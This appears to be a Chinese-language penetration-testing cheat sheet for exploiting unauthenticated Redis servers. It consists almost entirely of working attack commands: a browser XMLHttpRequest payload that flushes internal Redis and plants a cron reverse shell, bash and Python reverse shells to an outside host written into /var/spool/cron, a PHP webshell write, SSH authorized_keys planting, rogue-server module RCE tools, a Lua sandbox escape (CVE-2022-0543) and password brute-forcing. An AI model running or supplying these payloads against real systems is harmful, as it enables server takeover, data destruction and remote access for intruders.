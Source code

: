 #### 测试
	>redis-cli -h 127.0.0.1 flunshall 
	192.168.0.110:6379>ping
	PONG 存在未授权访问
#### JS打内网
	var cmd = new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");      
	cmd.send('flushall\r\n');             
	var cmd =new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");      
	cmd.send('eval \'' + 'redis.call(\"set\",\"1\",\"\\n\\n*/1 * * * * /bin/bash -i >&/dev/tcp/外网IP/5566 0>&1\\n\\n");redis.call(\"config\", \"set\", \"dir\",\"/var/spool/cron/\"); redis.call(\"config\",\"set\", \"dbfilename\", \"root\");' + '\' 0' +"\r\n");       
	var cmd =new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");       
	cmd.send('save\r\n');
#### 反弹shell
	保存为sh
	echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.0.108/12138 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
	echo -e "\n\n */1 * * * * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.108",12138));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\n\n"|redis-cli -h $1 -p $2 -x set 1
	redis-cli -h $1 -p $2 config set dir /var/spool/cron/
	redis-cli -h $1 -p $2 config set dbfilename root
	redis-cli -h $1 -p $2 save
	redis-cli -h $1 -p $2 quit
	执行
	>bash 1.sh 192.168.0.120 6379
![image](/assets/Pentest_Note/master/img/34.png)
![image](/assets/Pentest_Note/master/img/35.png)

#### 写shell
	6379> config set dir /var/www/html/
	6379> config set dbfilename shell.php
	6379> set x "<?php phpinfo();?>"
	6379> save
#### SSH
	ssh-keygen
	本地生成一对密钥
	https://github.com/JoyChou93/hackredis
	>ssh-keygen -t rsa -C "xx@xx.com"
	>(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > qq.txt
	>redis-cli -h 127.0.0.1 flunshall
	>cat qq.txt | redis-cli -h 127.0.0.1 -x set crackit
	>redis-cli -h 127.0.0.1
	6379> config set dir /root/.ssh/
	6379> config set dbfilename "authorized_keys"
	6379> save
	本地登录
	#ssh -i id_rsa root@11.11.11.11
#### redis-rogue-getshell
	https://github.com/vulhub/redis-rogue-getshell
	需要python3.0以上
	编译
	>cd RedisModulesSDK/
	>make
	会在此目录下生成exp.so
	执行命令
	>python3 redis-master.py -r 192.168.0.120 -p 6379 -L 192.168.0.108 -P 12138 -f RedisModulesSDK/exp.so -c "cat /etc/passwd"
![image](/assets/Pentest_Note/master/img/36.png)

#### redis-rogue-server
	https://github.com/n0b0dyCN/redis-rogue-server
	需要python3.6以上
	编译
	>cd RedisModulesSDK/exp
	>make
	执行
	>./redis-rogue-server.py --rhost 192.168.0.120 --lhost 192.168.0.108
![image](/assets/Pentest_Note/master/img/37.png)
![image](/assets/Pentest_Note/master/img/38.png)

	也可以反向shell
![image](/assets/Pentest_Note/master/img/39.png)
![image](/assets/Pentest_Note/master/img/40.png)
#### redis在windows下的利用
	Web目录写入木马
	启动项
	系统DLL劫持(目标重启或注销)
	特定软件的DLL劫持
	覆盖快捷方式
	覆盖配置文件
	覆盖sethc等文件
	https://github.com/r35tart/RedisWriteFile
	>python3 rediswritefile.py --rhost=目标IP --rport=6379 --lhost=本机IP --lport=本地端口 --rpath="在目标保存的路径" --rfile="在目标保存的文件" --lfile="本地文件" --auth=redis密码

#### Lua RCE
	https://github.com/QAX-A-Team/redis_lua_exploit
	修改redis_lua.py里的 host 为目标 IP
	执行返回正常，反弹shell
	>eval "tonumber('/bin/bash -i >& /dev/tcp/192.168.0.108/12345 0>&1', 8)" 0
#### Redis漏洞利用工具
    https://github.com/yuyan-sec/RedisEXP
    windows
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console
    linux平台
    >RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
    >RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
    文件上传
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
    写shell
    >RedisExp.exe -rhost 192.168.211.128 -shell
    Lua沙盒绕过命令执行 CVE-2022-0543
    >RedisExp.exe -rhost 192.168.211.130 -lua -console
    爆破redis密码
    >RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt